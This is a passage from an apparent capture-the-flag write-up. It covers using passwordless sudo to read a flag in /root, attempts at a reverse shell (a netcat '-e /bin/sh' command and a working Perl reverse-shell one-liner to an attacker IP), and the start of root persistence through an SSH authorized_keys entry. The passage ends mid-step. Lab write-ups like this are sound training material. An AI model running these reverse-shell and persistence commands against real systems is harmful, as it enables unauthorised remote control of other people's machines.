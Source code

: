 The output  `(ALL) NOPASSWD: ALL`  tells us that the current user is allowed to run `sudo` without any password. This means that we are able to gain an unauthenticated superuser privilege.



**Finding the last and final ingredient**

After further enumeration on the file system, I found out that the 3rd ingredient is in the `/root` directory.&#x20;

```bash
$ sudo ls -la /root
...
3rd.txt
...

$ sudo less /root/3rd.txt
fleeb juice
```

### Additional pointers

**(1) Attempts to initiate a reverse shell (for a stable shell experience)**

**Attacker machine**

```bash
$ nc -lvnp [port]
```

_**1.1 Netcat (does not work)**_

* The attacker machine does not receive any connections

```bash
$ nc <attacker> [port] -e /bin/sh 
```

_**1.2 Perl (works)**_

* The attacker machine receives a shell environment

```bash
$ perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**(2) Persistence**&#x20;

Now that we have a session with superuser privileges (`sudo`), we can load our SSH public key to the `.ssh/authorized_keys` file. Specifically, the key will be added to the file under the home directory for the root user: `/root`, allowing us to gain persistence as the root user.

{% embed url="https://jarrettgxz-sec.gitbook.io/networking-concepts/ssh/ssh-public-key-authentication" %}

_**From the attacker machine**_

_**2.1 Generate a SSH keypair**_&#x20;
